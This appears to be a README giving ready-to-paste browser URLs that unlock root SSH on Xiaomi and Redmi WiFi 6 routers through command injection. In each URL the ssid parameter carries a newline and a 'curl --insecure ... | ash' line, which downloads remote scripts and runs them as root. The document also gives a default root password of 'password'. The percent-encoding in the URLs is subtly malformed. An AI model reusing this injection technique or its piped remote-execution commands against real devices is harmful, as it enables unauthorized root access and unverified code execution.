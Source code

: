 # Unlock SSH on Xiaomi and Redmi WiFi 6 routers

Login to the Web UI (http://192.168.31.1), get the stok parameter value from the URL, replace it in the below URL and run it on browser:
```
http://192.168.31.1/cgi-bin/luci/;stok=STOKVALUEHERE/api/misystem/set_config_iotdev?bssid=gallifrey&user_id=doctor&ssid=-h%0Acurl%20--insecure%20https%3A%2F%2Fraw.githubusercontent.com%azics%2FUnlock-SSH-on-Xiaomi-and-Redmi-WiFi-6-routers%2Fmaster%2Funlock_ssh.sh%20%7C%20ash%0A
```

```
http://192.168.31.1/cgi-bin/luci/;stok=STOKVALUEHERE/api/misystem/set_config_iotdev?bssid=gallifrey&user_id=doctor&ssid=-h%0Acurl%20--insecure%20https%3A%2F%2Fraw.githubusercontent.com%azics%2FUnlock-SSH-on-Xiaomi-and-Redmi-WiFi-6-routers%2Fmaster%2FregionToCN.sh%20%7C%20ash%0A
```

If the command is injected correctly you will receive a `{"code":0}` response.

Now you can connect to ssh with "ssh root@192.168.31.1", the default password is literally "password". Don't forget to change it with "passwd root" afterwards.

If you also want to block some Chinese servers (this will also disable access by the MiWifi app), run:
```
http://192.168.31.1/cgi-bin/luci/;stok=STOCKVALUEHERE/api/misystem/set_config_iotdev?bssid=gallifrey&user_id=doctor&ssid=-h%0Acurl%20--insecure%20https%3A%2F%2Fraw.githubusercontent.com%azics%2FUnlock-SSH-on-Xiaomi-and-Redmi-WiFi-6-routers%2Fmaster%2Fblock_chinese_servers.sh%20%7C%20ash%0A
```
